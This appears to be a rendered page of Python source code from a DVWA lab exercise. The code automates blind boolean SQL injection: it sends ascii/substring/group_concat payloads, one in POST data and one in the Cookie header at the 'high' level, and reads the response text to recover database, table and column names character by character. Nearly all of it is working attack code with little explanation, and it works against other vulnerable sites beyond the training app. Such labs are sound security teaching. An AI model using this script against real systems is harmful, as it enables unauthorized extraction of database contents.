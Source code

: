 ```python
            print('\ncan not get the word length') 
    def get_word_name(self,table_name,column_name,word_num):
        name = ''
        for i in range(1,self.word_length[word_num]+1):
            for j in self.zifuji:
                self.process('get_{0}_name'.format(str(i)),j,100)
                data = {
                    'id':"1 and (select ascii(substring(group_concat({0}),{1},1)) as a from {2} having a={3})".format(column_name,str(i),table_name,str(j)),
                    'Submit':'Submit',
                }
                html = self.s.post(self.url,data=data,headers=self.headers).text
                if self.check(html):
                    name += chr(j)
                    break
            if len(name) != i:
                name += '|'
        self.word_name.append(name)
        print('\n==>',self.word_name[word_num])
```

### high

```python
import requests
import string

class Injection:
    def __init__(self,url):
        self.url = url
        self.s = requests.session()
        self.zifuji = [44,48, 49, 50, 51, 52, 53, 54, 55, 56, 57, 97, 98, 99, 100, 101, 102, 103, 104, 105, 106, 107, 108, 109, 110, 111, 112, 113, 114, 115, 116, 117, 118, 119, 120, 121, 122, 65, 66, 67, 68, 69, 70, 71, 72, 73, 74, 75, 76, 77, 78, 79, 80, 81, 82, 83, 84, 85, 86, 87, 88, 89, 90, 95, 45, 64, 33, 38, 36]
    def get_headers(self,payload):
        headers = {
            'Cookie': "id={0}; security=high; PHPSESSID=ms11imgpftrmfcp27rmk9s006c".format(payload)
        }
        return headers
    def process(self,yourstr,num1,num2):
        print("[+] Please wait ... {0} [{1}]/[{2}]".format(yourstr,str(num1),str(num2)),end='\r')
    def check(self,text):
        if "User ID exists in the database." in text:
            return True
        elif "User ID is MISSING from the database." in text:
            return False
    def run(self):
        self.get_itsnum()
        self.get_database_length()
        self.get_database()
        self.get_table_num()
        self.table_length = []
        self.table_name = []
        self.get_table_length()
        self.get_table_name()
        table_name = input('[-] table_name: ')
        self.get_column_num(table_name)
        self.column_length = []
        self.column_name = []
        self.get_column_length(table_name)
        self.get_column_name(table_name)
        column_names = input('[-] column_name: ').split(',')
```
